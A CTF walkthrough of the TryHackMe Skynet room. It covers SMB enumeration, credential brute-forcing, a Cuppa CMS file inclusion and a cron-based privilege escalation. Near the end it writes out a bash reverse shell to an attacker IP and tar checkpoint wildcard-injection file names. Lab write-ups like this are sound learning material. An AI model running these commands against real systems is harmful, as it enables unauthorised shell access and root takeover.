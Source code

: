 Here I'm sharing how i attacked the Skynet machine on TryHackMe.

![skynetbanner](https://user-images.githubusercontent.com/64267672/131548745-7e469214-c9f4-495e-9e18-036abe01748b.png)


Starting with an Nmap scan;
![skynetnmap](https://user-images.githubusercontent.com/64267672/131534547-948ef292-5386-4865-88d1-f21cecf6a2c5.png)


Taking a look at port 80;
![skynetweb](https://user-images.githubusercontent.com/64267672/131535132-4b79e27f-47d7-456a-8c73-2d4ef12ebc8a.png)


Now bruteforcing directories;
![skynetdir](https://user-images.githubusercontent.com/64267672/131537119-0e36a97e-bb47-44cf-82db-42bebd221aab.png)


We find a login page upon visiting  /squirrelmail
![skynetsnquilelmail](https://user-images.githubusercontent.com/64267672/131537439-932cf147-df39-4a19-99bf-53adf86422cb.png)

Going back to the nmap scan results so i started digging frrom port 445 (smb)
![skynetsmbclient](https://user-images.githubusercontent.com/64267672/131537902-15877751-3b3c-4430-9a07-6fa5c6c18fd9.png)


we can download the juicy files from smb to our local machine, 
Now reading attention.txt exposes potential username & log1.txt has a list of potential passwords mmmm;

![skynetpotential](https://user-images.githubusercontent.com/64267672/131538383-2a9c392f-99ed-42bb-8701-ed0e6a03f1fb.png)


Now bruteforcing with burpsuite intruder & we have valid creds
![skynetpasssmb](https://user-images.githubusercontent.com/64267672/131538658-9fa9b54c-6b15-4f9a-90f4-964e438c2014.png)

we can go back to the login page on port 80 & login with the valid creds we've found

Looks like we have access to the email account & we can find just 3 email conversations
Reading one from skynet@skynet reveals some info

![skynetemail](https://user-images.githubusercontent.com/64267672/131539491-cc7ea41c-c046-4a39-a103-6388e161b3f0.png)

That's a password to "milesdyson" smb share & with that we get access to some other files

![skynetmilesdysonshare](https://user-images.githubusercontent.com/64267672/131539944-8b2bd4d2-fe22-43b4-b692-6ed45e8e57af.png)


we get & read the important.txt on his notes folder on smb which exposes a new directory;

![skynetimportant](https://user-images.githubusercontent.com/64267672/131540228-0bba366b-2ed4-40c7-a721-f137ce3c0fe8.png)

This is his personal page;

![skynetpersdir](https://user-images.githubusercontent.com/64267672/131540746-bfb1215e-def2-48a5-ad5b-a61f2e20d32e.png)

sadly we find nothing there so we have to do a directory bursting & found /administrator;

![skynetadmin](https://user-images.githubusercontent.com/64267672/131542783-3c388fbe-0086-4645-8d91-80c5d2225e9b.png)

We see it's running cupa cms. Now looking at google & we see some remote file inclusion vulnurability linked to cupa
reading on the vulnurability/exploit on exploit db & we can have an idia how to exploit;
Reading /etc/passwd 

![skynetetcpasswd](https://user-images.githubusercontent.com/64267672/131544006-9fa7c52e-0366-4a74-ae0f-e36856a41ca0.png)

We can try to inlude a reverse shell & use it to get shell access on web server.

![skynetwebshell](https://user-images.githubusercontent.com/64267672/131544693-f94c7949-b2f8-4160-8d13-21f59718fdbf.png)

Now we have shell & can read our user.txt in /home/milesdyson directory

![skynetuser](https://user-images.githubusercontent.com/64267672/131545024-3bd3b5ea-2f53-41ce-ba07-3d69a8d3e531.png)


Now we can go elevate our privilege to Root.

Looking at the /backups folder & we can read a backup.sh script

This compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute:

Now creating a privileged reverse shell;


tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
$ ./shell

![skynetuserbinbash](https://user-images.githubusercontent.com/64267672/131547330-7b682fda-2878-495c-86b9-a656fab4a295.png)


And we have root shell from listening on the revserse shell port & we can read root.txt;

![skynetrootshell](https://user-images.githubusercontent.com/64267672/131547713-2bf466c6-51d0-4b49-8a69-16aad2a0f7cc.png)


### REFRENCES

https://tryhackme.com/room/skynet

https://gtfobins.github.io/gtfobins/tar/

https://www.exploit-db.com/exploits/25971



